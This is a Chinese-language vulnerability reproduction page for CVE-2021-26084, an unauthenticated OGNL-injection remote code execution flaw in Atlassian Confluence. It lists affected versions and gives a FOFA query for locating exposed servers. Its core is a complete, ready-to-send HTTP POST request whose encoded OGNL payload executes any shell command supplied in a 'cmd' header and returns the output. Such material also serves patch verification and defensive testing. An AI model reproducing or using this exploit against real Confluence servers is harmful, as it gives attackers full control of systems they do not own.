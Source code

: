 # Atlassian Confluence doenterpagevariables.action 远程命令执行漏洞 CVE-2021-26084

## 漏洞描述

Atlassian Confluence 存在远程代码执行漏洞，攻击者在无需认证，即可构造恶意请求，造成OGNL表达式注入，从而执行任意代码，控制服务器。

## 漏洞影响

<a-checkbox checked>Atlassian Atlassian Confluence < 7.4.11</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 7.11.6</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 7.13.0</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.13.23</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 7.12.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-20220313151904953.png)

发送请求包

```python
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
    
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
```

![img](../../../.vuepress/public/img/1630489492911-21e95ad0-77c0-4cba-9bcf-ae1b660f2bb8.png)
